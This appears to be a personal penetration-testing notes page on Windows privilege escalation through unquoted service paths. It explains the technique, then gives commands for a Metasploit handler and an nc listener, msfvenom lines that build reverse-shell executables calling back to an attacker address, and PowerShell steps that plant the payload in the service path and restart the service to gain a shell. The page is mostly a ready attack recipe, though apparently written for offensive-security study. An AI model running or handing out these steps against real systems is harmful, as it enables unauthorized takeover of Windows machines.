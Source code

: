 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Unquoted Service Paths|Enum]]
As it sounds, you know what this is. The service has a path that includes a space (and isn't inside quotation marks!) in it so you just make sure to have control of (or make your own) directory of the first word before the space, then put your malware in that directory so that when the service goes to run, it picks up your malware thinking it found the right program and stops looking for the actual program.

For example, if the path is `C:\Program Files\service.exe`, you put your malware in `C:\program.exe`, and that gets picked up before the first path. 
#### Setup listener
```bash
# meterpreter
msfconsole
use multi/handler
set lhost=<attack ip>
set lport=<port>
run

# reverse shell
nc -nvlp <port>
```
#### Payload
Or go to [Rev Shell Gen](https://revshell.xehn.lol)
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe

msfvenom -p windows/x64/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe

msfvenom -p windows/shell_reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe
```
#### Exploit
[[Dark Arts I/File Transfer/Windows|File transfer]] payload to target machine
```powershell
# in this example, the unquoted service path is
# C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
# so we will place the payload as:
# C:\Program Files\Unquoted Path Service\common.exe
copy common.exe "C:\Program Files\Unquoted Path Service\common.exe"

# now start/restart the service
sc start <service> 
sc start unquotedpathsvc

# and you should now have a shell
```